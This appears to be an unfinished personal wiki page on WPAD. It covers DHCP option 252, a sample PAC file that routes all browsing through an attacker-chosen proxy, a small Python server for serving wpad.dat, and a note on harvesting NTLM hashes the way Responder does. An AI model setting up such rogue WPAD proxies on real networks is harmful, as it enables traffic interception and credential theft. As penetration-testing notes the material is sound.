 <!-- TITLE: Wpad -->
<!-- SUBTITLE: A quick summary of Wpad -->

# DNS
# WINS
# NMB
# DHCP Response
Per Cisco site (https://www.cisco.com/c/en/us/td/docs/security/web_security/connector/connector2972A/WPADAP.html):  
A browser that supports both methods will check the DHCP assignment first, before attempting the DNS method.

A DHCP server must be configured to serve an additional setting in an IP address assignment; option 252. This option specifies the exact location of the PAC file. The file name does not need to follow any specific naming convention, however if WPAD DNS is to be used also, the file must have the file name wpad.dat.

A Web browser implementing this method sends the DHCP server a DHCPINFORM query, the DHCP server will return the expected IP settings along with the 252 option which defines the location of the PAC file. The browser will then download this PAC file from the URL provided. 

Can DHCP Response be sent unsolicited?
# Example Response

```text
function FindProxyForURL(url, host) {
        return "PROXY 10.0.0.169:8080";
}
```

# Example Python Server (note content-type)

```text
import SimpleHTTPServer
import SocketServer
import logging

PORT = 80


class GetHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):

    def do_GET(self):
        logging.error(self.headers)
        SimpleHTTPServer.SimpleHTTPRequestHandler.do_GET(self)

Handler = GetHandler

Handler.extensions_map.update({
    '.dat': 'application/x-ns-proxy-autoconfig',
});

httpd = SocketServer.TCPServer(("", PORT), Handler)

print "serving at port", PORT
httpd.serve_forever()

```

# Hash Collection using WPAD
responder does this.  Should upgrade python server to only request it once per machine.  Once I've got it, don't require it.  Also research which processes will provide it.  Windows Update?  Adobe?



